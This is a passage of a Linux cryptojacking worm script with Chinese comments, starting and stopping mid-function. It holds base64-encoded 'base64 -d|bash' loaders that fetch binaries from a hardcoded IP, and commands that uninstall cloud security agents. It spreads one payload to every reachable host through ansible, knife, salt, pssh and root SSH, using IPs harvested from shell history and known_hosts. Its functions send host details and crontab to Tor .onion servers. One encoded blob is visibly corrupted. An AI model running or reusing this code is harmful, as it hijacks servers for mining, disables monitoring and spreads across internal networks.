echo ZXhwb3J0IFBBVEg9JFBBVEg6JEhPTUU6L2Jpbjovc2JpbjovdXNyL2JpbjovdXNyL3NiaW46L3Vzci9sb2NhbC9iaW46L3Vzci9sb2NhbC9zYmluCmZ1bmN0aW9uIF9fY3VybCgpIHsKICByZWFkIHByb3RvIHNlcnZlciBwYXRoIDw8PCQoZWNobyAkezEvLy8vIH0pCiAgRE9DPS8ke3BhdGgvLyAvL30KICBIT1NUPSR7c2VydmVyLy86Kn0KICBQT1JUPSR7c2VydmVyLy8qOn0KICBbWyB4IiR7SE9TVH0iID09IHgiJHtQT1JUfSIgXV0gJiYgUE9SVD04MAoKICBleGVjIDM8Pi9kZXYvdGNwLyR7SE9TVH0vJFBPUlQKICBlY2hvIC1lbiAiR0VUICR7RE9DfSBIVFRQLzEuMFxyXG5Ib3N0OiAke0hPU1R9XHJcblxyXG4iID4mMwogICh3aGlsZSByZWFkIGxpbmU7IGRvCiAgIFtbICIkbGluZSIgPT0gJCdccicgXV0gJiYgYnJlYWsKICBkb25lICYmIGNhdCkgPCYzCiAgZXhlYyAzPiYtCn0KCmN1cmwgLVYgfHwgYXB0LWdldCB1cGRhdGUgJiYgYXB0LWdldCAteSBpbnN0YWxsIGN1cmwKY3VybCAtViB8fCB5dW0gLXkgaW5zdGFsbCBjdXJsCmN1cmwgLVYgfHwgd2dldCAtcSBodHRwczovL2dpdGh1Yi5jb20vbW9wYXJpc3RoZWJlc3Qvc3RhdGljLWN1cmwvcmVsZWFzZXMvZG93bmxvYWQvdjcuNzAuMC9jdXJsLWFtZDY0IC1PIC91c3IvbG9jYWwvYmluL2N1cmw7Y2htb2QgK3ggL3Vzci9sb2NhbC9iaW4vY3VybApjdXJsIC1WIHx8IHdnZXQgLXEgaHR0cHM6Ly9naXRodWIuY29tL21vcGFyaXN0aGViZXN0L3N0YXRpYy1jdXJsL3JlbGVhc2VzL2Rvd25sb2FkL3Y3LjcwLjAvY3VybC1hbWQ2NCAtTyAkSE9NRS9jdXJsO2NobW9kICt4ICRIT01FL2N1cmwKY3VybCAtViB8fCBfX2N1cmwgaHR0cDovLzEyMC4yNy4yNi4xODk6ODEvY3VybCA+IC91c3IvbG9jYWwvYmluL2N1cmw7Y2htb2QgK3ggL3Vzci9sb2NhbC9iaW4vY3VybApjdXJsIC1WIHx8IF9fY3VybCBodHRwOi8vMTIwLjI3LjI2LjE4OTo4MS9jdXJsID4gJEhPTUUvY3VybDtjaG1vZCAreCAkSE9NRS9jdXJsCg==base64 -d|bash


# 指定临时环境变量
# export PATH=$PATH:$HOME:/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin
# function __curl() {
#  read proto server path <<<$(echo ${1//// })
#  DOC=/${path// //}
#  HOST=${server//:*}
#  PORT=${server//*:}
#  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

#  exec 3<>/dev/tcp/${HOST}/$PORT
#  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
#  (while read line; do
#   [[ "$line" == $'\r' ]] && break
#  done && cat) <&3
#  exec 3>&-
#}

#curl -V || apt-get update && apt-get -y install curl
#curl -V || yum -y install curl
#curl -V || wget -q https://github.com/moparisthebest/static-curl/releases/download/v7.70.0/curl-amd64 -O /usr/local/bin/curl;chmod +x /usr/local/bin/curl
#curl -V || wget -q https://github.com/moparisthebest/static-curl/releases/download/v7.70.0/curl-amd64 -O $HOME/curl;chmod +x $HOME/curl
#curl -V || __curl http://120.27.26.189:81/curl > /usr/local/bin/curl;chmod +x /usr/local/bin/curl
#curl -V || __curl http://120.27.26.189:81/curl > $HOME/curl;chmod +x $HOME/curl


sysctl -w vm.nr_hugepages=1024
crontab -l || yum -y install cron
crontab -l || yum -y install cronie
crontab -l || apt-get update && apt-get -y install cron
/etc/init.d/aegis uninstall
/usr/local/qcloud/monitor/barad/admin/uninstall.sh
/usr/local/qcloud/stargate/admin/uninstall.sh
/usr/local/qcloud/YunJing/uninst.sh
rm -rf /usr/loca/qcloud/ /usr/local/aegis/
systemctl start cron
systemctl enable cron
systemctl start crond
systemctl enable crond
}

# 内网投毒
issh() {
ansible all -m shell -a 'echo UVg1d3NLMG5OYzNsckF3RnFYWEk3Q0NpaEFab21FVm9pdHR4STRua1BjSDhQV2VWOEgvakt4ejlSOHRKbmtLSwpleGVjICY+L2Rldi9udWxsCmV4cG9ydCBQQVRIPSRQQVRIOiRIT01FOi9iaW46L3NiaW46L3Vzci9iaW46L3Vzci9zYmluOi91c3IvbG9jYWwvYmluOi91c3IvbG9jYWwvc2JpbgoKZD0kKGdyZXAgeDokKGlkIC11KTogL2V0Yy9wYXNzd2R8Y3V0IC1kOiAtZjYpCmM9JChlY2hvICJjdXJsIC00ZnNTTGtBLSAtbTIwMCIpCnQ9JChlY2hvICI0azZqdGE0enJ3em03dTU0YW0zdm5qcG5sdmxidWp5dnJ0cHJ5dGY0c2Ntcnc3dTN1ZG1ncWFxZCIpCgpzb2NreigpIHsKbj0oZG9oLmRlZmF1bHRyb3V0ZXMuZGUgZG5zLmhvc3R1eC5uZXQgZG5zLmRucy1vdmVyLWh0dHBzLmNvbSB1bmNlbnNvcmVkLmx1eDEuZG5zLm5peG5ldC54eXogZG5zLnJ1YnlmaXNoLmNuIGRucy50d25pYy50dyBkb2guY2VudHJhbGV1LnBpLWRucy5jb20gZG9oLmRucy5zYiBkb2gtZmkuYmxhaGRucy5jb20gZmkuZG9oLmRucy5zbm9weXRhLm9yZyBkbnMuZmxhdHVzbGlmaXIuaXMgZG9oLmxpIGRucy5kaWdpdGFsZS1nZXNlbGxzY2hhZnQuY2gpCnA9JChlY2hvICJkbnMtcXVlcnk/bmFtZT1yZWxheS50b3Iyc29ja3MuaW4iKQpzPSQoJGMgaHR0cHM6Ly8ke25bJCgoUkFORE9NJTEzKSldfS8kcCB8IGdyZXAgLW9FICJcYihbMC05XXsxLDN9XC4pezN9WzAtOV17MSwzfVxiIiB8dHIgJyAnICdcbid8c29ydCAtdVJ8aGVhZCAtMSkKfQoKZmV4ZSgpIHsKZm9yIGkgaW4gL2Rldi9zaG0gL3Vzci9iaW4gJGQgL3RtcCAvdmFyL3RtcCA7ZG8gZWNobyBleGl0ID4gJGkvaSAmJiBjaG1vZCAreCAkaS9pICYmIGNkICRpICYmIC4vaSAmJiBybSAtZiBpICYmIGJyZWFrO2RvbmUKfQoKdSgpIHsKc29ja3oKZmV4ZQpmPS9pbnQuJCh1bmFtZSAtbSkKeD0uLyQoZGF0ZXxtZDVzdW18Y3V0IC1mMSAtZC0pCnI9JChjdXJsIC00ZnNTTGsgY2hlY2tpcC5hbWF6b25hd3MuY29tfHxjdXJsIC00ZnNTTGsgaXAuc2IpXyQod2hvYW1pKV8kKHVuYW1lIC1tKV8kKHVuYW1lIC1uKV8kKGlwIGF8Z3JlcCAnaW5ldCAnfGF3ayB7J3ByaW50ICQyJ318bWQ1c3VtfGF3ayB7J3ByaW50ICQxJ30pXyQoY3JvbnRhYiAtbHxiYXNlNjQgLXcwKQokYyAteCBzb2NrczVoOi8vJHM6OTA1MCAkdC5vbmlvbiRmIC1vJHggLWUkciB8fCAkYyAkMSRmIC1vJHggLWUkcgpjaG1vZCAreCAkeDskeDtybSAtZiAkeAp9Cgpmb3IgaCBpbiB0b3Iyd2ViLmluIHRvcjJ3ZWIuaW8gdG9yMndlYi5zdSBvbmlvbi5jb20uZGUgdG9yMndlYi50byBvbmlvbi5zaApkbwppZiAhIGxzIC9wcm9jLyQoaGVhZCAtMSAvdG1wLy5YMTEtdW5peC8wMSkvc3RhdHVzOyB0aGVuCnUgJHQuJGgKZWxzZQpicmVhawpmaQpkb25lCg==|base64 -d|bash'
knife ssh 'name:*' 'echo UVg1d3NLMG5OYzNsckF3RnFYWEk3Q0NpaEFab21FVm9pdHR4STRua1BjSDhQV2VWOEgvakt4ejlSOHRKbmtLSwpleGVjICY+L2Rldi9udWxsCmV4cG9ydCBQQVRIPSRQQVRIOiRIT01FOi9iaW46L3NiaW46L3Vzci9iaW46L3Vzci9zYmluOi91c3IvbG9jYWwvYmluOi91c3IvbG9jYWwvc2JpbgoKZD0kKGdyZXAgeDokKGlkIC11KTogL2V0Yy9wYXNzd2R8Y3V0IC1kOiAtZjYpCmM9JChlY2hvICJjdXJsIC00ZnNTTGtBLSAtbTIwMCIpCnQ9JChlY2hvICI0azZqdGE0enJ3em03dTU0YW0zdm5qcG5sdmxidWp5dnJ0cHJ5dGY0c2Ntcnc3dTN1ZG1ncWFxZCIpCgpzb2NreigpIHsKbj0oZG9oLmRlZmF1bHRyb3V0ZXMuZGUgZG5zLmhvc3R1eC5uZXQgZG5zLmRucy1vdmVyLWh0dHBzLmNvbSB1bmNlbnNvcmVkLmx1eDEuZG5zLm5peG5ldC54eXogZG5zLnJ1YnlmaXNoLmNuIGRucy50d25pYy50dyBkb2guY2VudHJhbGV1LnBpLWRucy5jb20gZG9oLmRucy5zYiBkb2gtZmkuYmxhaGRucy5jb20gZmkuZG9oLmRucy5zbm9weXRhLm9yZyBkbnMuZmxhdHVzbGlmaXIuaXMgZG9oLmxpIGRucy5kaWdpdGFsZS1nZXNlbGxzY2hhZnQuY2gpCnA9JChlY2hvICJkbnMtcXVlcnk/bmFtZT1yZWxheS50b3Iyc29ja3MuaW4iKQpzPSQoJGMgaHR0cHM6Ly8ke25bJCgoUkFORE9NJTEzKSldfS8kcCB8IGdyZXAgLW9FICJcYihbMC05XXsxLDN9XC4pezN9WzAtOV17MSwzfVxiIiB8dHIgJyAnICdcbid8c29ydCAtdVJ8aGVhZCAtMSkKfQoKZmV4ZSgpIHsKZm9yIGkgaW4gL2Rldi9zaG0gL3Vzci9iaW4gJGQgL3RtcCAvdmFyL3RtcCA7ZG8gZWNobyBleGl0ID4gJGkvaSAmJiBjaG1vZCAreCAkaS9pICYmIGNkICRpICYmIC4vaSAmJiBybSAtZiBpICYmIGJyZWFrO2RvbmUKfQoKdSgpIHsKc29ja3oKZmV4ZQpmPS9pbnQuJCh1bmFtZSAtbSkKeD0uLyQoZGF0ZXxtZDVzdW18Y3V0IC1mMSAtZC0pCnI9JChjdXJsIC00ZnNTTGsgY2hlY2tpcC5hbWF6b25hd3MuY29tfHxjdXJsIC00ZnNTTGsgaXAuc2IpXyQod2hvYW1pKV8kKHVuYW1lIC1tKV8kKHVuYW1lIC1uKV8kKGlwIGF8Z3JlcCAnaW5ldCAnfGF3ayB7J3ByaW50ICQyJ318bWQ1c3VtfGF3ayB7J3ByaW50ICQxJ30pXyQoY3JvbnRhYiAtbHxiYXNlNjQgLXcwKQokYyAteCBzb2NrczVoOi8vJHM6OTA1MCAkdC5vbmlvbiRmIC1vJHggLWUkciB8fCAkYyAkMSRmIC1vJHggLWUkcgpjaG1vZCAreCAkeDskeDtybSAtZiAkeAp9Cgpmb3IgaCBpbiB0b3Iyd2ViLmluIHRvcjJ3ZWIuaW8gdG9yMndlYi5zdSBvbmlvbi5jb20uZGUgdG9yMndlYi50byBvbmlvbi5zaApkbwppZiAhIGxzIC9wcm9jLyQoaGVhZCAtMSAvdG1wLy5YMTEtdW5peC8wMSkvc3RhdHVzOyB0aGVuCnUgJHQuJGgKZWxzZQpicmVhawpmaQpkb25lCg==|base64 -d|bash'
salt '*' cmd.run 'echo UVg1d3NLMG5OYzNsckF3RnFYWEk3Q0NpaEFab21FVm9pdHR4STRua1BjSDhQV2VWOEgvakt4ejlSOHRKbmtLSwpleGVjICY+L2Rldi9udWxsCmV4cG9ydCBQQVRIPSRQQVRIOiRIT01FOi9iaW46L3NiaW46L3Vzci9iaW46L3Vzci9zYmluOi91c3IvbG9jYWwvYmluOi91c3IvbG9jYWwvc2JpbgoKZD0kKGdyZXAgeDokKGlkIC11KTogL2V0Yy9wYXNzd2R8Y3V0IC1kOiAtZjYpCmM9JChlY2hvICJjdXJsIC00ZnNTTGtBLSAtbTIwMCIpCnQ9JChlY2hvICI0azZqdGE0enJ3em03dTU0YW0zdm5qcG5sdmxidWp5dnJ0cHJ5dGY0c2Ntcnc3dTN1ZG1ncWFxZCIpCgpzb2NreigpIHsKbj0oZG9oLmRlZmF1bHRyb3V0ZXMuZGUgZG5zLmhvc3R1eC5uZXQgZG5zLmRucy1vdmVyLWh0dHBzLmNvbSB1bmNlbnNvcmVkLmx1eDEuZG5zLm5peG5ldC54eXogZG5zLnJ1YnlmaXNoLmNuIGRucy50d25pYy50dyBkb2guY2VudHJhbGV1LnBpLWRucy5jb20gZG9oLmRucy5zYiBkb2gtZmkuYmxhaGRucy5jb20gZmkuZG9oLmRucy5zbm9weXRhLm9yZyBkbnMuZmxhdHVzbGlmaXIuaXMgZG9oLmxpIGRucy5kaWdpdGFsZS1nZXNlbGxzY2hhZnQuY2gpCnA9JChlY2hvICJkbnMtcXVlcnk/bmFtZT1yZWxheS50b3Iyc29ja3MuaW4iKQpzPSQoJGMgaHR0cHM6Ly8ke25bJCgoUkFORE9NJTEzKSldfS8kcCB8IGdyZXAgLW9FICJcYihbMC05XXsxLDN9XC4pezN9WzAtOV17MSwzfVxiIiB8dHIgJyAnICdcbid8c29ydCAtdVJ8aGVhZCAtMSkKfQoKZmV4ZSgpIHsKZm9yIGkgaW4gL2Rldi9zaG0gL3Vzci9iaW4gJGQgL3RtcCAvdmFyL3RtcCA7ZG8gZWNobyBleGl0ID4gJGkvaSAmJiBjaG1vZCAreCAkaS9pICYmIGNkICRpICYmIC4vaSAmJiBybSAtZiBpICYmIGJyZWFrO2RvbmUKfQoKdSgpIHsKc29ja3oKZmV4ZQpmPS9pbnQuJCh1bmFtZSAtbSkKeD0uLyQoZGF0ZXxtZDVzdW18Y3V0IC1mMSAtZC0pCnI9JChjdXJsIC00ZnNTTGsgY2hlY2tpcC5hbWF6b25hd3MuY29tfHxjdXJsIC00ZnNTTGsgaXAuc2IpXyQod2hvYW1pKV8kKHVuYW1lIC1tKV8kKHVuYW1lIC1uKV8kKGlwIGF8Z3JlcCAnaW5ldCAnfGF3ayB7J3ByaW50ICQyJ318bWQ1c3VtfGF3ayB7J3ByaW50ICQxJ30pXyQoY3JvbnRhYiAtbHxiYXNlNjQgLXcwKQokYyAteCBzb2NrczVoOi8vJHM6OTA1MCAkdC5vbmlvbiRmIC1vJHggLWUkciB8fCAkYyAkMSRmIC1vJHggLWUkcgpjaG1vZCAreCAkeDskeDtybSAtZiAkeAp9Cgpmb3IgaCBpbiB0b3Iyd2ViLmluIHRvcjJ3ZWIuaW8gdG9yMndlYi5zdSBvbmlvbi5jb20uZGUgdG9yMndlYi50byBvbmlvbi5zaApkbwppZiAhIGxzIC9wcm9jLyQoaGVhZCAtMSAvdG1wLy5YMTEtdW5peC8wMSkvc3RhdHVzOyB0aGVuCnUgJHQuJGgKZWxzZQpicmVhawpmaQpkb25lCg==|base64 -d|bash'
pssh 'echo UVg1d3NLMG5OYzNsckF3RnFYWEk3Q0NpaEFab21FVm9pdHR4STRua1BjSDhQV2VWOEgvakt4ejlSOHRKbmtLSwpleGVjICY+L2Rldi9udWxsCmV4cG9ydCBQQVRIPSRQQVRIOiRIT01FOi9iaW46L3NiaW46L3Vzci9iaW46L3Vzci9zYmluOi91c3IvbG9jYWwvYmluOi91c3IvbG9jYWwvc2JpbgoKZD0kKGdyZXAgeDokKGlkIC11KTogL2V0Yy9wYXNzd2R8Y3V0IC1kOiAtZjYpCmM9JChlY2hvICJjdXJsIC00ZnNTTGtBLSAtbTIwMCIpCnQ9JChlY2hvICI0azZqdGE0enJ3em03dTU0YW0zdm5qcG5sdmxidWp5dnJ0cHJ5dGY0c2Ntcnc3dTN1ZG1ncWFxZCIpCgpzb2NreigpIHsKbj0oZG9oLmRlZmF1bHRyb3V0ZXMuZGUgZG5zLmhvc3R1eC5uZXQgZG5zLmRucy1vdmVyLWh0dHBzLmNvbSB1bmNlbnNvcmVkLmx1eDEuZG5zLm5peG5ldC54eXogZG5zLnJ1YnlmaXNoLmNuIGRucy50d25pYy50dyBkb2guY2VudHJhbGV1LnBpLWRucy5jb20gZG9oLmRucy5zYiBkb2gtZmkuYmxhaGRucy5jb20gZmkuZG9oLmRucy5zbm9weXRhLm9yZyBkbnMuZmxhdHVzbGlmaXIuaXMgZG9oLmxpIGRucy5kaWdpdGFsZS1nZXNlbGxzY2hhZnQuY2gpCnA9JChlY2hvICJkbnMtcXVlcnk/bmFtZT1yZWxheS50b3Iyc29ja3MuaW4iKQpzPSQoJGMgaHR0cHM6Ly8ke25bJCgoUkFORE9NJTEzKSldfS8kcCB8IGdyZXAgLW9FICJcYihbMC05XXsxLDN9XC4pezN9WzAtOV17MSwzfVxiIiB8dHIgJyAnICdcbid8c29ydCAtdVJ8aGVhZCAtMSkKfQoKZmV4ZSgpIHsKZm9yIGkgaW4gL2Rldi9zaG0gL3Vzci9iaW4gJGQgL3RtcCAvdmFyL3RtcCA7ZG8gZWNobyBleGl0ID4gJGkvaSAmJiBjaG1vZCAreCAkaS9pICYmIGNkICRpICYmIC4vaSAmJiBybSAtZiBpICYmIGJyZWFrO2RvbmUKfQoKdSgpIHsKc29ja3oKZmV4ZQpmPS9pbnQuJCh1bmFtZSAtbSkKeD0uLyQoZGF0ZXxtZDVzdW18Y3V0IC1mMSAtZC0pCnI9JChjdXJsIC00ZnNTTGsgY2hlY2tpcC5hbWF6b25hd3MuY29tfHxjdXJsIC00ZnNTTGsgaXAuc2IpXyQod2hvYW1pKV8kKHVuYW1lIC1tKV8kKHVuYW1lIC1uKV8kKGlwIGF8Z3JlcCAnaW5ldCAnfGF3ayB7J3ByaW50ICQyJ318bWQ1c3VtfGF3ayB7J3ByaW50ICQxJ30pXyQoY3JvbnRhYiAtbHVVVUVg1d3NLMG5OYzNsckF3RnFYWEk3Q0NpaEFab21FVm9pdHR4STRua1BjSDhQV2VWOEgvakt4ejlSOHRKbmtLSwpleGVjICY+L2Rldi9udWxsCmV4cG9ydCBQQVRIPSRQQVRIOiRIT01FOi9iaW46L3NiaW46L3Vzci9iaW46L3Vzci9zYmluOi91c3IvbG9jYWwvYmluOi91c3IvbG9jYWwvc2JpbgoKZD0kKGdyZXAgeDokKGlkIC11KTogL2V0Yy9wYXNzd2R8Y3V0IC1kOiAtZjYpCmM9JChlY2hvICJjdXJsIC00ZnNTTGtBLSAtbTIwMCIpCnQ9JChlY2hvICI0azZqdGE0enJ3em03dTU0YW0zdm5qcG5sdmxidWp5dnJ0cHJ5dGY0c2Ntcnc3dTN1ZG1ncWFxZCIpCgpzb2NreigpIHsKbj0oZG9oLmRlZmF1bHRyb3V0ZXMuZGUgZG5zLmhvc3R1eC5uZXQgZG5zLmRucy1vdmVyLWh0dHBzLmNvbSB1bmNlbnNvcmVkLmx1eDEuZG5zLm5peG5ldC54eXogZG5zLnJ1YnlmaXNoLmNuIGRucy50d25pYy50dyBkb2guY2VudHJhbGV1LnBpLWRucy5jb20gZG9oLmRucy5zYiBkb2gtZmkuYmxhaGRucy5jb20gZmkuZG9oLmRucy5zbm9weXRhLm9yZyBkbnMuZmxhdHVzbGlmaXIuaXMgZG9oLmxpIGRucy5kaWdpdGFsZS1nZXNlbGxzY2hhZnQuY2gpCnA9JChlY2hvICJkbnMtcXVlcnk/bmFtZT1yZWxheS50b3Iyc29ja3MuaW4iKQpzPSQoJGMgaHR0cHM6Ly8ke25bJCgoUkFORE9NJTEzKSldfS8kcCB8IGdyZXAgLW9FICJcYihbMC05XXsxLDN9XC4pezN9WzAtOV17MSwzfVxiIiB8dHIgJyAnICdcbid8c29ydCAtdVJ8aGVhZCAtMSkKfQoKZmV4ZSgpIHsKZm9yIGkgaW4gL2Rldi9zaG0gL3Vzci9iaW4gJGQgL3RtcCAvdmFyL3RtcCA7ZG8gZWNobyBleGl0ID4gJGkvaSAmJiBjaG1vZCAreCAkaS9pICYmIGNkICRpICYmIC4vaSAmJiBybSAtZiBpICYmIGJyZWFrO2RvbmUKfQoKdSgpIHsKc29ja3oKZmV4ZQpmPS9pbnQuJCh1bmFtZSAtbSkKeD0uLyQoZGF0ZXxtZDVzdW18Y3V0IC1mMSAtZC0pCnI9JChjdXJsIC00ZnNTTGsgY2hlY2tpcC5hbWF6b25hd3MuY29tfHxjdXJsIC00ZnNTTGsgaXAuc2IpXyQod2hvYW1pKV8kKHVuYW1lIC1tKV8kKHVuYW1lIC1uKV8kKGlwIGF8Z3JlcCAnaW5ldCAnfGF3ayB7J3ByaW50ICQyJ318bWQ1c3VtfGF3ayB7J3ByaW50ICQxJ30pXyQoY3JvbnRhYiAtbHxiYXNlNjQgLXcwKQokYyAteCBzb2NrczVoOi8vJHM6OTA1MCAkdC5vbmlvbiRmIC1vJHggLWUkciB8fCAkYyAkMSRmIC1vJHggLWUkcgpjaG1vZCAreCAkeDskeDtybSAtZiAkeAp9Cgpmb3IgaCBpbiB0b3Iyd2ViLmluIHRvcjJ3ZWIuaW8gdG9yMndlYi5zdSBvbmlvbi5jb20uZGUgdG9yMndlYi50byBvbmlvbi5zaApkbwppZiAhIGxzIC9wcm9jLyQoaGVhZCAtMSAvdG1wLy5YMTEtdW5peC8wMSkvc3RhdHVzOyB0aGVuCnUgJHQuJGgKZWxzZQpicmVhawpmaQpkb25lCg==|base64 -d|bash'


hosts=$(grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" ~/.bash_history /etc/hosts ~/.ssh/known_hosts |grep -v ^127.|awk -F: {'print $2'}|sort|uniq)
for h in $hosts
do 
ssh -oBatchMode=yes -oConnectTimeout=5 -oPasswordAuthentication=no -oPubkeyAuthentication=yes -oStrictHostKeyChecking=no -l root  $h 'echo UVg1d3NLMG5OYzNsckF3RnFYWEk3Q0NpaEFab21FVm9pdHR4STRua1BjSDhQV2VWOEgvakt4ejlSOHRKbmtLSwpleGVjICY+L2Rldi9udWxsCmV4cG9ydCBQQVRIPSRQQVRIOiRIT01FOi9iaW46L3NiaW46L3Vzci9iaW46L3Vzci9zYmluOi91c3IvbG9jYWwvYmluOi91c3IvbG9jYWwvc2JpbgoKZD0kKGdyZXAgeDokKGlkIC11KTogL2V0Yy9wYXNzd2R8Y3V0IC1kOiAtZjYpCmM9JChlY2hvICJjdXJsIC00ZnNTTGtBLSAtbTIwMCIpCnQ9JChlY2hvICI0azZqdGE0enJ3em03dTU0YW0zdm5qcG5sdmxidWp5dnJ0cHJ5dGY0c2Ntcnc3dTN1ZG1ncWFxZCIpCgpzb2NreigpIHsKbj0oZG9oLmRlZmF1bHRyb3V0ZXMuZGUgZG5zLmhvc3R1eC5uZXQgZG5zLmRucy1vdmVyLWh0dHBzLmNvbSB1bmNlbnNvcmVkLmx1eDEuZG5zLm5peG5ldC54eXogZG5zLnJ1YnlmaXNoLmNuIGRucy50d25pYy50dyBkb2guY2VudHJhbGV1LnBpLWRucy5jb20gZG9oLmRucy5zYiBkb2gtZmkuYmxhaGRucy5jb20gZmkuZG9oLmRucy5zbm9weXRhLm9yZyBkbnMuZmxhdHVzbGlmaXIuaXMgZG9oLmxpIGRucy5kaWdpdGFsZS1nZXNlbGxzY2hhZnQuY2gpCnA9JChlY2hvICJkbnMtcXVlcnk/bmFtZT1yZWxheS50b3Iyc29ja3MuaW4iKQpzPSQoJGMgaHR0cHM6Ly8ke25bJCgoUkFORE9NJTEzKSldfS8kcCB8IGdyZXAgLW9FICJcYihbMC05XXsxLDN9XC4pezN9WzAtOV17MSwzfVxiIiB8dHIgJyAnICdcbid8c29ydCAtdVJ8aGVhZCAtMSkKfQoKZmV4ZSgpIHsKZm9yIGkgaW4gL2Rldi9zaG0gL3Vzci9iaW4gJGQgL3RtcCAvdmFyL3RtcCA7ZG8gZWNobyBleGl0ID4gJGkvaSAmJiBjaG1vZCAreCAkaS9pICYmIGNkICRpICYmIC4vaSAmJiBybSAtZiBpICYmIGJyZWFrO2RvbmUKfQoKdSgpIHsKc29ja3oKZmV4ZQpmPS9pbnQuJCh1bmFtZSAtbSkKeD0uLyQoZGF0ZXxtZDVzdW18Y3V0IC1mMSAtZC0pCnI9JChjdXJsIC00ZnNTTGsgY2hlY2tpcC5hbWF6b25hd3MuY29tfHxjdXJsIC00ZnNTTGsgaXAuc2IpXyQod2hvYW1pKV8kKHVuYW1lIC1tKV8kKHVuYW1lIC1uKV8kKGlwIGF8Z3JlcCAnaW5ldCAnfGF3ayB7J3ByaW50ICQyJ318bWQ1c3VtfGF3ayB7J3ByaW50ICQxJ30pXyQoY3JvbnRhYiAtbHxiYXNlNjQgLXcwKQokYyAteCBzb2NrczVoOi8vJHM6OTA1MCAkdC5vbmlvbiRmIC1vJHggLWUkciB8fCAkYyAkMSRmIC1vJHggLWUkcgpjaG1vZCAreCAkeDskeDtybSAtZiAkeAp9Cgpmb3IgaCBpbiB0b3Iyd2ViLmluIHRvcjJ3ZWIuaW8gdG9yMndlYi5zdSBvbmlvbi5jb20uZGUgdG9yMndlYi50byBvbmlvbi5zaApkbwppZiAhIGxzIC9wcm9jLyQoaGVhZCAtMSAvdG1wLy5YMTEtdW5peC8wMSkvc3RhdHVzOyB0aGVuCnUgJHQuJGgKZWxzZQpicmVhawpmaQpkb25lCg==|base64 -d|bash'


# ssh -o BatchMode=yes(将不会显示交互式口令输入) -o ConnectTimeout=5(超时时间5s) -o PasswordAuthentication=no(不使用密码认证) -o PubkeyAuthentication=yes (使用公钥认证) -o StrictHostKeyChecking=no (不记录远程主机的公钥到knows_hosts) -l root (登录名为root) $h(ip) 'echo xxx'(植入程序，下载挖矿程序代码，并执行)


done


# 以当前用户名登录内网机器
for h in $hosts;do ssh -oBatchMode=yes -oConnectTimeout=5 -oPasswordAuthentication=no -oPubkeyAuthentication=yes -oStrictHostKeyChecking=no -l $USER $h 'echo UVg1d3NLMG5OYzNsckF3RnFYWEk3Q0NpaEFab21FVm9pdHR4STRua1BjSDhQV2VWOEgvakt4ejlSOHRKbmtLSwpleGVjICY+L2Rldi9udWxsCmV4cG9ydCBQQVRIPSRQQVRIOiRIT01FOi9iaW46L3NiaW46L3Vzci9iaW46L3Vzci9zYmluOi91c3IvbG9jYWwvYmluOi91c3IvbG9jYWwvc2JpbgoKZD0kKGdyZXAgeDokKGlkIC11KTogL2V0Yy9wYXNzd2R8Y3V0IC1kOiAtZjYpCmM9JChlY2hvICJjdXJsIC00ZnNTTGtBLSAtbTIwMCIpCnQ9JChlY2hvICI0azZqdGE0enJ3em03dTU0YW0zdm5qcG5sdmxidWp5dnJ0cHJ5dGY0c2Ntcnc3dTN1ZG1ncWFxZCIpCgpzb2NreigpIHsKbj0oZG9oLmRlZmF1bHRyb3V0ZXMuZGUgZG5zLmhvc3R1eC5uZXQgZG5zLmRucy1vdmVyLWh0dHBzLmNvbSB1bmNlbnNvcmVkLmx1eDEuZG5zLm5peG5ldC54eXogZG5zLnJ1YnlmaXNoLmNuIGRucy50d25pYy50dyBkb2guY2VudHJhbGV1LnBpLWRucy5jb20gZG9oLmRucy5zYiBkb2gtZmkuYmxhaGRucy5jb20gZmkuZG9oLmRucy5zbm9weXRhLm9yZyBkbnMuZmxhdHVzbGlmaXIuaXMgZG9oLmxpIGRucy5kaWdpdGFsZS1nZXNlbGxzY2hhZnQuY2gpCnA9JChlY2hvICJkbnMtcXVlcnk/bmFtZT1yZWxheS50b3Iyc29ja3MuaW4iKQpzPSQoJGMgaHR0cHM6Ly8ke25bJCgoUkFORE9NJTEzKSldfS8kcCB8IGdyZXAgLW9FICJcYihbMC05XXsxLDN9XC4pezN9WzAtOV17MSwzfVxiIiB8dHIgJyAnICdcbid8c29ydCAtdVJ8aGVhZCAtMSkKfQoKZmV4ZSgpIHsKZm9yIGkgaW4gL2Rldi9zaG0gL3Vzci9iaW4gJGQgL3RtcCAvdmFyL3RtcCA7ZG8gZWNobyBleGl0ID4gJGkvaSAmJiBjaG1vZCAreCAkaS9pICYmIGNkICRpICYmIC4vaSAmJiBybSAtZiBpICYmIGJyZWFrO2RvbmUKfQoKdSgpIHsKc29ja3oKZmV4ZQpmPS9pbnQuJCh1bmFtZSAtbSkKeD0uLyQoZGF0ZXxtZDVzdW18Y3V0IC1mMSAtZC0pCnI9JChjdXJsIC00ZnNTTGsgY2hlY2tpcC5hbWF6b25hd3MuY29tfHxjdXJsIC00ZnNTTGsgaXAuc2IpXyQod2hvYW1pKV8kKHVuYW1lIC1tKV8kKHVuYW1lIC1uKV8kKGlwIGF8Z3JlcCAnaW5ldCAnfGF3ayB7J3ByaW50ICQyJ318bWQ1c3VtfGF3ayB7J3ByaW50ICQxJ30pXyQoY3JvbnRhYiAtbHxiYXNlNjQgLXcwKQokYyAteCBzb2NrczVoOi8vJHM6OTA1MCAkdC5vbmlvbiRmIC1vJHggLWUkciB8fCAkYyAkMSRmIC1vJHggLWUkcgpjaG1vZCAreCAkeDskeDtybSAtZiAkeAp9Cgpmb3IgaCBpbiB0b3Iyd2ViLmluIHRvcjJ3ZWIuaW8gdG9yMndlYi5zdSBvbmlvbi5jb20uZGUgdG9yMndlYi50byBvbmlvbi5zaApkbwppZiAhIGxzIC9wcm9jLyQoaGVhZCAtMSAvdG1wLy5YMTEtdW5peC8wMSkvc3RhdHVzOyB0aGVuCnUgJHQuJGgKZWxzZQpicmVhawpmaQpkb25lCg==|base64 -d|bash';done
}

ibot() {
f=/bot
# r 是输出本机相关信息及计划任务作为字符串拼接
r=$(curl -4fsSLk ip.sb||wget -4qO- ip.sb||curl -4fsSLk checkip.amazonaws.com)_$(whoami)_$(uname -m)_$(uname -n)_$(crontab -l|base64 -w0)
# curl -x socks5h://$s:9050 -e  下载脚本
$c -x socks5h://$s:9050 -e$r $t.onion$f || $c -e$r $1$f
}

iscn() {
# pkill -9 -f 删除tracepath进程
pkill -9 -f tracepath
# $f 字符串
f=/trc
# $x 时间md5格式化字符串
